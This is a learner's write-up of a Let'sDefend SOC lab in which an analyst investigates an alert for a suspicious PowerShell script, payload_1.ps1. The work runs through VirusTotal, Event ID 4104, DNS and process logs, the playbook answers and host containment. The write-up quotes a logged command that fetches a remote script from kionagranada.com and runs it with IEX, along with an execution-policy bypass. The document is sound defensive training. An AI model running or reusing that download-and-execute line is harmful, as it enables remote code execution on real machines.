# Day 18 — SOC153: Suspicious PowerShell Script Executed

## Overview

Today I investigated a suspicious PowerShell script execution alert in the Let'sDefend SOC environment.

The alert involved a PowerShell script named `payload_1.ps1` executed on the endpoint `Tony`. The file hash was analyzed using VirusTotal and showed multiple malicious detections.

Further investigation of Windows logs revealed PowerShell Script Block Logging (Event ID 4104), DNS activity, process creation events, and a command line that downloaded and executed a remote PowerShell script directly in memory.

The investigation confirmed that the endpoint communicated with suspicious external infrastructure and that the malicious script was executed on the system.

Based on the available evidence, the alert was confirmed as a **True Positive**.

## Alert Details

- **Alert:** SOC153 — Suspicious PowerShell Script Executed
- **Event ID:** 238
- **Event Time:** Mar 14, 2024, 05:23 PM
- **Level:** Security Analyst
- **Hostname:** `Tony`
- **IP Address:** `172.16.17.206`
- **File Name:** `payload_1.ps1`
- **File Path:** `C:\Users\LetsDefend\Downloads\payload_1.ps1`
- **File Hash (SHA-256):** `db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0`
- **Trigger Reason:** Suspicious PowerShell Script Executed
- **AV/EDR Action:** Detected
- **Verdict:** True Positive

---

## Investigation Process

### 1. File Reputation Analysis

I started the investigation by taking the SHA-256 hash provided in the alert:

`db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0`

I searched the hash on **VirusTotal** to determine its reputation.

**Figure 1 — VirusTotal**



VirusTotal showed a detection ratio of **35/62**, providing strong evidence that the file was malicious.

---

### 2. Log Management Investigation

After confirming the malicious reputation of the file, I moved to **Log Management** and searched for the affected host:

`172.16.17.206`

**Figure 2 — Log Management**



I reviewed the logs around the time of the alert to understand how the malicious PowerShell script was executed and what activity occurred afterward.

---

### 3. PowerShell Event ID 4104 Analysis

I then analyzed the Windows PowerShell logs and identified **Event ID 4104**.

PowerShell Script Block Logging Event ID 4104 records PowerShell script content that was executed.

**Figure 3 — PowerShell Script Block Logging**



The log showed a command that used PowerShell to download a remote script:

`powershell -command IEX(IWR -UseBasicParsing 'https://kionagranada.com/upload/sd2.ps1')`

The command used:

- `IWR` / `Invoke-WebRequest` to retrieve remote content
- `IEX` / `Invoke-Expression` to execute the retrieved content

Executing downloaded content directly through PowerShell can allow malicious code to run without first being saved as a traditional executable file.

---

### 4. DNS Investigation

I then reviewed the network logs for DNS activity around the same timeframe.

**Figure 4 — DNS Log Analysis**



The logs showed a DNS query generated by `powershell.exe` for:

`kionagranada.com`

The domain resolved to:

`161.22.46.148`

This connected the PowerShell execution with external network infrastructure.

---

### 5. Process Creation Analysis

Next, I reviewed the process creation logs associated with the endpoint.

**Figure 5 — Process Creation Log**



The logs showed that PowerShell was executed under the `LetsDefend` user account.

The process activity was associated with the suspicious script located under:

`C:\Users\LetsDefend\Downloads\`

The file activity also matched the malicious hash identified during the VirusTotal investigation.

---

### 6. PowerShell Execution Policy Analysis

I then expanded the PowerShell command line to understand how the script was executed.

**Figure 6 — PowerShell Command Line**



The command included logic similar to:

`Set-ExecutionPolicy -Scope Process Bypass`

The command temporarily changed the PowerShell execution policy for the current process to **Bypass**, allowing the script to execute without requiring the normal script-signing restriction.

The command then executed:

`C:\Users\LetsDefend\Downloads\payload_1.ps1`

This provided additional evidence of suspicious PowerShell execution.

---

## Case Management — Playbook Answers

### 7. Was There Unexpected Outbound Internet Traffic?

**Yes**

The DNS logs showed the endpoint resolving the suspicious domain:

`kionagranada.com`

This represented unexpected external communication associated with the malicious PowerShell activity.

**Figure 7 — Playbook**



---

### 8. Was the File Quarantined?

**No**

The available alert evidence indicated that the malicious file was detected but not quarantined.

**Figure 8 — Playbook**



---

### 9. Is the Activity Malicious?

**Yes**

The file was identified as malicious by VirusTotal, and the endpoint logs showed suspicious PowerShell activity associated with external infrastructure.

**Figure 9 — Playbook**



---

### 10. Was the System Accessed?

**Yes**

The investigation identified malicious PowerShell execution and associated network activity on the affected endpoint.

**Figure 10 — Playbook**



---

### 11. Should the Host Be Contained?

**Yes**

Because the malicious script was executed and the endpoint communicated with suspicious external infrastructure, the host should be contained to prevent further malicious activity.

**Figure 11 — Host Containment**



---

## Artifacts

The following indicators were identified during the investigation:

| Type | Indicator |
|---|---|
| Hostname | `Tony` |
| Host IP | `172.16.17.206` |
| Username | `LetsDefend` |
| File Name | `payload_1.ps1` |
| File Path | `C:\Users\LetsDefend\Downloads\payload_1.ps1` |
| SHA-256 | `db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0` |
| Suspicious Domain | `kionagranada.com` |
| Resolved IP | `161.22.46.148` |
| PowerShell Event | `4104` |

**Figure 12 — Artifacts**



---

## Investigation Verdict

**True Positive — Malicious PowerShell Script Execution**

The alert was confirmed as a genuine malicious activity.

Multiple sources of evidence supported the verdict:

- VirusTotal identified the file as malicious.
- PowerShell Event ID 4104 captured the suspicious script execution.
- The PowerShell command downloaded a remote script.
- `IEX` was used to execute the downloaded content.
- DNS logs showed communication with `kionagranada.com`.
- Process creation logs confirmed PowerShell execution.
- The execution policy was temporarily changed to `Bypass`.

---

## Response

The affected host was **contained** to prevent further communication with the suspicious external infrastructure and limit potential impact.

The relevant indicators were documented as artifacts, and the alert was closed as a **True Positive**.

**Figure 13 — Closed Alert**



---

## What I Learned

From this investigation, I learned how to:

- Investigate suspicious PowerShell execution
- Analyze PowerShell Event ID 4104
- Use VirusTotal for file reputation analysis
- Investigate process creation logs
- Analyze DNS activity
- Identify suspicious PowerShell download activity
- Understand `IEX` and `Invoke-WebRequest`
- Understand PowerShell execution policy bypass
- Correlate endpoint and network telemetry
- Identify suspicious external infrastructure
- Perform host containment
- Document Indicators of Compromise
- Determine True Positive vs False Positive
- Follow a SOC investigation playbook

---

## Tools Used

- Let'sDefend
- VirusTotal
- Log Management
- Windows Event Logs
- PowerShell Script Block Logging
- DNS Logs
- Endpoint Security
- Threat Intelligence
- Case Management Playbook

---

## Key Takeaway

PowerShell is a legitimate Windows administration tool, but attackers frequently abuse it to download and execute malicious code.

In this investigation, the combination of **Event ID 4104**, suspicious PowerShell commands, execution policy bypass, DNS activity, and a malicious file hash provided strong evidence of malicious activity.

The investigation flow was:

**Alert → Hash Analysis → VirusTotal → Event ID 4104 → Process Analysis → DNS Investigation → External Communication → Host Containment → Playbook → Verdict**

This investigation helped me understand how a SOC analyst can correlate PowerShell, endpoint, and network telemetry to identify malicious script execution and respond appropriately.
